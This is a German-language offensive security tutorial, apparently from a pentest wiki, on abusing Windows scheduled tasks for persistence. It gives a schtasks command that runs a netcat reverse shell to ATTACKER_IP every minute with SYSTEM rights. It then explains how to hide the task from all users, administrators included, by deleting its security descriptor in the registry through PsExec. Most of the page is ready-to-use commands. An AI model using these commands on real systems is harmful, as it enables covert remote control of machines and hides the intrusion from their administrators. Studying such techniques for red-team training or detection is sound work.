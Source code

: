 # Ausnutzung geplanter Aufgaben

{% hint style="info" %}
Geplante Aufgaben (Scheduled Tasks) stellen eine weitere effektive Methode zur Etablierung von Persistenz in Windows-Systemen dar. Mit dem integrierten Aufgabenplaner lassen sich Aufgaben sehr granular konfigurieren, z. B. durch Ausführung zu bestimmten Zeitpunkten, in Intervallen oder als Reaktion auf bestimmte Systemereignisse.
{% endhint %}

***

## **Erstellen geplanter Aufgaben**

Zur Einrichtung persistenter Aufgaben sollte der Befehl [schtasks.md](../befehle/schtasks.md "mention") verwendet werden. Dieser erlaubt es, Aufgaben direkt über die Kommandozeile zu konfigurieren. Ein Beispiel zur Erstellung einer automatisierten Reverse Shell, die minütlich ausgeführt wird, lautet:

```cmd
schtasks /create /sc minute /mo 1 /tn RMT-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

* `/sc minute /mo 1` legt fest, dass die Aufgabe jede Minute ausgeführt wird.
* `/tn RMT-TaskBackdoor` gibt den Namen der Aufgabe an.
* `/tr` definiert den auszuführenden Befehl (in diesem Fall eine Reverse Shell).
* `/ru SYSTEM` stellt sicher, dass die Aufgabe mit SYSTEM-Rechten läuft.

Um zu prüfen, ob die Aufgabe erfolgreich eingerichtet wurde, kann folgender Befehl verwendet werden:

```cmd
schtasks /query /tn RMT-TaskBackdoor
```

***

## **Tarnen der geplanten Aufgabe**

Obwohl die Aufgabe erstellt ist, könnte ein kompromittierter Benutzer diese im Aufgabenplaner sehen. Um dies zu verhindern, sollte der zugehörige **Security Descriptor (SD)** aus der Registry gelöscht werden. Dieser legt fest, welche Benutzer die Aufgabe einsehen oder verändern dürfen. Wird der SD entfernt, ist die Aufgabe für alle Benutzer – inklusive Administratoren – unsichtbar.

Die SD-Werte aller Aufgaben befinden sich in der Registry unter:

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
```

Um den Eintrag zu löschen, müssen SYSTEM-Rechte vorliegen. Dazu kann `PsExec` aus den Sysinternals-Tools genutzt werden:

```cmd
c:\tools\pstools\PsExec64.exe -s -i regedit
```

Anschließend muss in der Registry der `SD`-Wert des Schlüssels **RMT-TaskBackdoor** entfernt werden. Nach diesem Vorgang wird die Aufgabe nicht mehr über `schtasks /query` angezeigt:

```cmd
schtasks /query /tn RMT-TaskBackdoor
> ERROR: The system cannot find the file specified.
```

Die Aufgabe wird jedoch weiterhin im Hintergrund ausgeführt. Bei einem laufenden Listener auf der Angreiferseite sollte innerhalb einer Minute eine Reverse Shell empfangen werden.
